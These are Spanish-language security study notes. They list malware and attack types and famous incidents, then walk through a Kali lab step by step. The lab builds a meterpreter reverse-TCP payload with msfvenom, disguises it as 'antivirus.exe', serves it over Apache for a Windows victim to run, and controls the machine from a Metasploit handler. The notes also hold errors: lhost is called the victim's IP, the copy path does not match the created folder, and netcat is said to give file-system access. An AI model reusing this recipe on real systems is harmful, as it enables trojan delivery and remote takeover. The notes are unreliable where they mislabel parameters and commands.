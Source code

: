 # Tipos de Amezada
## Virus
un programa necesita ser ejecuto para funcionar y su funcion es propagarse.
## Gusanos
Se autoreplica y propaga en todos los host conectados.
## Caballo de Troya
No se replica y se escribe para asemejarse a un programa legitimo, pero por dentro esta escondida la herramienta de ataque.
## Ransomware
Deniega el acceso al equipo y exige un rescate.
## Spyware
Recopila Informacion y la envia sin consentimiento.
## Adware
Muestra Pop-up para generar ingresos al creador.
## Scareware
Software de estafa para generar ansiedad o amenza para la utilizacion
## Phishing
Intenta obtener informacion a travez de ingeneria social
## Rootkits
Se mantiene funcionando en segundo plano con acceso privilegiado a un usuario remoto


# Tipos de Ataques
## Ataque de Reconocimiento
Deteccion y esquematizacion no autorizado en sistemas vulnerables
- Activo(Escaneo de Puertos o Vulnerabilidades) y el pasivo(OSINT)
## Ataque de Acceso
Manipulacion no autorizada de datos, de accesos al sistema o de privilegio de usuarios
Explotan vulnerabilidades de servicios FTP, Web, etc. El mas conocido es el "Ataque a Contraseñas", en donde se implementan programas detectores de paquetes, o ataques de fuerza bruta
## Denegacion de Servicio (DoS)
Consisten en desactivar o dañar redes, sistemas o servicios
Son Perkines los que los hacen, debido a que no requieren poder de computo
Ejemplos:
- Sql Slammer Worm

| Sobrecarga de Recursos                             | Datos mal Formados                         |
| -------------------------------------------------- | ------------------------------------------ |
| Espacio en Disco<br>Ancho de banda<br>Buferes      | Paquetes mal formados<br>Ping de la Muerte |
| Saturacion de Ping(Smurf)                          | Paquete Superpuesto(winuke)                |
| Tormentas de paquetes(Bombas UDP)<br>(Flaggle)<br> | Datos no gestionados(Teardrop)             |

Linea de Tiempo de los ataques mas conocidos:
- 1978: Primer Spam ArpaNet
- 1988: Morris
- 1999: Melissa
- 2000: DoS Mafiaboy, Gusano Love Bug, Cracket L0phtCrack
- 2001: DoS Code Red: Ataco 350.000 Servidores en 2001, causando DoS a millones de usuarios
- 2004: Botnet contra sistemas militares EEUU
- 2007: Storm Botnet, Filtrado de tarjetas TJX
- 2008: Fraude Societe Generale

Empresas contra el Malware
SysAdmin, Audit, Network, Security Institute ([Sans](https://www.sans.org))
Computer Emergency Response Team ([Cert](https://www.cert.org))
International Information Systems Security Certification Consortium ([(ISC)²](https://www.isc2.org/))


## Generando Malware
Usando VM Kali con adaptador puente
### Generar Exploit Kali
> Configurar teclado latinoamerica
```
setxkbmap -layout latam
```

> Crear Archivo corrupto con MSFvenom
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip-victima] lport=4444 -f exe -a x86 > antivirus.exe
```
- `-p`: plataforma destino/metodo ataque/ataque
- `lhost`: ip equipo a atacar
- `lport`: puerto a usar
- `-f`: tipo de archivo
- `-a`: arquitectura a elegir
- `>`: Envia `stdout` a el archivo que nombremos

> Abrir consola metasploitable
```
msfconsole
```

> Cargar Consola Ataque
```
use exploit/multi/handler
```

> Cargar Tipo de ataque
```
set payload windows/meterpreter/reverse_tcp
```

> Configurar IP Kali
```
set lhost 192.168.65.128
```

> Configurar Puerto Kali a la Escucha
```
set lport 4444
```

> Cargar exploit
```
exploit
```

### Pasar el Archivo a Windows
> Subir archivos a la web de kali
```
mkdir -p /var/www/html/shares
cp antivirus.exe /var/www/html/share
service apache2 start
service apache2 status
```

Desde windows se debe abrir la ip de kali desde un navegador, descargar `antivirus.exe` y ejecutarlos

### Control desde kali

Cuando windows ejecute el archivo, activara el ataque de `reverse_tcp` permitiendo el acceso a la maquina windows vulnerable
> Ver informacion del sistema
```
sysinfo
```
> Tomar Screenshot
```
screenshot
```
> Tener acceso al sistema de ficheros
```
nc -vlp 4444
```
